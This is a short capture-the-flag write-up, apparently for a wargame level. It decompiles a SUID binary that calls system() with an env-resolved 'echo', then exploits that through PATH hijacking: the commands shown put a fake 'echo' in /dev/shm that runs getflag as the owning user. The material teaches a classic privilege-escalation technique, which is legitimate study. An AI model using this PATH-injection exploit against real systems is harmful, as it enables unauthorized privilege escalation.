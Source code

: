 # foothold

Easy one, we have a binary with SUID perms on the user home, yummy yummy.

Notice the `s` where the `x` normally is:
```raw
-rwsr-sr-x 1 flag03   level03 8627 Mar  5  2016 level03*
```

# exploit

Okey, no more games, let's reverse it with the good old and free ghidra, and see
what it does.

Okey, I had to download ghidra and the Java 17 JDK, zzz.

Decompile it and... its a call to `system()` in the `main()` function... with
the following command:
```c
int main(int argc,char **argv,char **envp)
{
    __gid_t __rgid;
    __uid_t __ruid;
    int iVar1;
    gid_t gid;
    uid_t uid;

    __rgid = getegid();
    __ruid = geteuid();
    setresgid(__rgid,__rgid,__rgid);
    setresuid(__ruid,__ruid,__ruid);
    iVar1 = system("/usr/bin/env echo Exploit me");
    return iVar1;
}
```

As we see, the binary gets the Effective UID and Effective GID, and calls
`setresuid` with it, so that way the Real UID, Effective UID and Saved Set UID.

Cool, the system command will execute as if it where the Effective UID, and
since the executable has the SUID flag... that means we are running that
`system()` call as `flag03`.

And since it is searching for the command `echo` in the enviroment...
So we can do something like this...
```
export PATH=/dev/shm:$PATH
echo -ne '#!'"/bin/bash\ngetflag\n" > /dev/shm/echo
chmod +x /dev/shm/echo
```

And... there it is, yummy yummy flag.
